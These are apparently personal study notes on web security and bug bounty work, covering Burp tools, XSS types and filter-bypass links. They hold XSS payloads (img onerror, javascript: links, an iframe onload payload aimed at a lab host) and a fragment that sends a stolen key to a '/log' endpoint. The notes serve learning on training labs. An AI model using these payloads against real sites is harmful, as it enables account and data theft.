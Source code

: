 ```js 
location='/log?key='+this.responseText; 
					   };
```
- eval execute a js script  

# Tools 
[Your Bug Bounty ToolKit | Guides on BugBountyHunter.com](https://www.bugbountyhunter.com/guides/?type=bugbounty_toolkit)
### Burp 
- Intruder: mass requests with vary payload   
- Repeater: simple request
- Proxy

# Vulnerabilities
# XSS    
```html
<img src=1 onerror="alert"/>  
<script>alert</script> 
<a href="javascript:alert(1)"></a> 
print() # due to chrome omit alert


use iframe to xss on a server 
<iframe src="https://0a3900d0039be71ec3f57bc6004200dd.web-security-academy.net/#" onload="this.src+=<img onerror="alert(1)"/>"></iframe> 

old jquery selector convert string to dom 
$(‘<p>something</p>’);
```
[What is cross-site scripting (XSS) and how to prevent it? | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)
- bypass 
[https://d3adend.org/xss/ghettoBypass](https://d3adend.org/xss/ghettoBypass) 
despite many tries, still `&lt;script&gt; or %3Cscript%3E` -> invulnerable 
[filter bypass xss](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet) 
[same above portswigger ver](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
![[Pasted image 20230126210840.png]]
### types  
- reflected: request & response 
- stored: server database 
- dom: client-side   
### some tags  & nitty gritty
- innerhtml, script not works but img does  
- hashchange
